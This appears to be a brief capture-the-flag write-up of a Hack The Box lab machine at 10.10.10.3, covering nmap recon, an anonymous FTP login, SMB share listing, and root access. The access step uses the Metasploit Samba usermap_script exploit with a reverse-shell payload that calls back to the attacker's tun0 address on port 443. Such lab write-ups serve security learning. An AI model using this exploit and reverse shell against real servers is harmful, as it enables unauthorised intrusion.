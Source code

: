 # HTB

<figure><img src="../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

### Recon

How many of the nmap top 1000 TCP ports are open on the remote host?

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption><p>4 Ports Open</p></figcaption></figure>

i will see the port open FTP - 21 with \
login Anonymous \
and \
Password Anonymous

```bash
ftp 10.10.10.3
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

but can't expliot ftp  come i will try expliot using smb

{% hint style="success" %}
With Passweord Protected OFF
{% endhint %}

```
smbclient -L 10.10.10.3
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### Initial Access

```bash
exploit/multi/samba/usermap_script
set payload cmd/unix/reverse
set lhost tun0
set lport 443
```

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Root Flag

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

User Flag

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Exploits Used

**msfconsole**

```
exploit/multi/samba/usermap_script
```

### Tools Used

* Nmap
* smbclient
* nc

